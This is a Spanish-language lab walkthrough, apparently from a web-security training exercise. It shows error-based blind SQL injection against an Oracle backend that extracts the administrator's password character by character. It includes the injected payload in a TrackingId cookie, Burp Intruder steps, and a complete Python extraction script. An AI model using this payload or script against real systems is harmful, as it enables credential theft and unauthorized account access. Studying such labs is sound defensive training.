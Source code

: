 ![Resultado]({{site.url}}/images/SQLi/sqli-12/Resultado.png)

## Ataque de Fuerza Bruta al campo Password

Utiliza una consulta que verifique si un carácter en una posición específica coincide con una letra. Si arroja error la consulta la letra pertenece al password.

```sql
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substr(password,1,1)='a') || '
```

Procedemos a realizar un `Intruder` en dos posiciones

![Intruder]({{site.url}}/images/SQLi/sqli-12/Intruder4.png)

Filtramos por estado error `500` esas son las letras que corresponden al password de `administrator`

![Password]({{site.url}}/images/SQLi/sqli-12/password.png)

## Login

Probamos el passwor de la BD

![Login]({{site.url}}/images/SQLi/sqli-12/login.png)

## Aprobado ⭕

![Aprobado]({{site.url}}/images/SQLi/sqli-12/aprobado.png)

# Codigo Python 

```python
import sys
import requests
import urllib3
import urllib.parse

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}


def sqli_password(url):
    password_extracted = ""
    for i in range(1,21):
        for j in range(32,126):
            sqli_payload = "' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and ascii(substr(password,%s,1))='%s') || '" % (i,j)
            sqli_payload_encoded = urllib.parse.quote(sqli_payload)
            cookies = {'TrackingId': 'FGDUewi6MoAn18KJ' + sqli_payload_encoded, 'session': 'VdmCjrlz6I6zAXGXEp2u32p0OXKDGhm2'}
            r = requests.get(url, cookies=cookies, verify=False, proxies=proxies)
            if r.status_code == 500:
                password_extracted += chr(j)
                sys.stdout.write('\r' + password_extracted)
                sys.stdout.flush()
                break
            else:
                sys.stdout.write('\r' + password_extracted + chr(j))
                sys.stdout.flush()

```
